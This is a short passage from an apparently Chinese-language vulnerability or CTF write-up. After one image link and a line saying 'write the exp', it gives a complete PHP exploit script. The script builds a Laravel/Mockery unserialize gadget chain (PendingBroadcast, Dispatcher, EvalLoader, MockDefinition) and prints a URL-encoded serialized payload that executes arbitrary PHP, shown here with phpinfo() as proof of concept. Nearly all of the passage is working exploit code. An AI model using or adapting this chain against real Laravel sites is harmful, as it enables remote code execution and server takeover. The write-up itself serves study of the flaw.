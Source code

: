 ![image-20211204140537312](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204140537312.png)

总结以上的过程，写exp

```php
<?php
namespace PhpParser\Node\Scalar\MagicConst{
    class Line {}
}
namespace Mockery\Generator{
    class MockDefinition
    {
        protected $config;
        protected $code;
        public function __construct($config, $code)
        {
            $this->config = $config;
            $this->code = $code;
        }
    }
}
namespace Mockery\Loader{
    class EvalLoader{}
}
namespace Illuminate\Bus{
    class Dispatcher
    {
        protected $queueResolver;
        public function __construct($queueResolver)
        {
            $this->queueResolver = $queueResolver;
        }
    }
}
namespace Illuminate\Foundation\Console{
    class QueuedCommand
    {
        public $connection;
        public function __construct($connection)
        {
            $this->connection = $connection;
        }
    }
}
namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct($events, $event)
        {
            $this->events = $events;
            $this->event = $event;
        }
    }
}
namespace{
    $line = new PhpParser\Node\Scalar\MagicConst\Line();
    $mockdefinition = new Mockery\Generator\MockDefinition($line,'<?php phpinfo();?>');
    $evalloader = new Mockery\Loader\EvalLoader();
    $dispatcher = new Illuminate\Bus\Dispatcher(array($evalloader,'load'));
    $queuedcommand = new Illuminate\Foundation\Console\QueuedCommand($mockdefinition);
    $pendingbroadcast = new Illuminate\Broadcasting\PendingBroadcast($dispatcher,$queuedcommand);
    echo urlencode(serialize($pendingbroadcast));
```